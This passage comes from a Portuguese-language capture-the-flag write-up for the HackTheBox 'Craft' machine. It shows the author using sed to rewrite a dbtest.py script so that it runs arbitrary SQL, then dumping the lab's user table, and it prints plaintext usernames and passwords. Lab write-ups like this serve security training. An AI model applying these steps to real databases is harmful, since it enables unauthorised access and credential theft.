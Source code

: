 Bom, uma vez que possuimos credenciais para o banco de dados, vamos iniciar a enumeração do mesmo

Eu poderia me conectar com o mysql, mas olhando os scritps que a máquina possui, um me chamou atenção, o `dbtest.py`, possivelmente esse script faz algum tipo de interação com o banco de dados, então podemos verificar o que ele está fazendo e explorar também

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-craft/C_eval5.png)

Sim, realmente ele faz requisição para o banco de dados, e utiliza as credenciais que estão no `settings.py`

Testamos executar ele pra ver o que temos

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-craft/C_eval6.png)

Ele realmente executa códigos no banco de dados, então podemos começar a extrair algo, pra ver se encontramos credenciais, por exemplo

Alteramos a variável `sql` por `sys.agrv[1]` pra ficar melhor de enviar os parâmetros e montar as queries

`sed -i '/sql =/c\        sql = sys.argv[1]' dbtest.py`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-craft/C_eval7.png)

Alteramos também a quantidade de dados que serão devolvidas na tela... de `result = cursor.fetchone()` para `result = cursor.all()`

`sed -i '/result =/c\        result = cursor.fetchall()' dbtest.py`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-craft/C_eval8.png)

Importamos também o módulo `sys`

`sed -i '/import pymysql/c\import pymysql, sys' dbtest.py`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-craft/C_eval9.png)

Agora iniciamos o dump

`python dbtest.py 'SELECT user()'`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-craft/C_eval10.png)

Agora encontramos credenciais!

```
python dbtest.py 'show databases;'
python dbtest.py 'show tables from craft;'
python dbtest.py 'select * from user;'
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-craft/C_eval11.png)

{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}, 

{'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'},
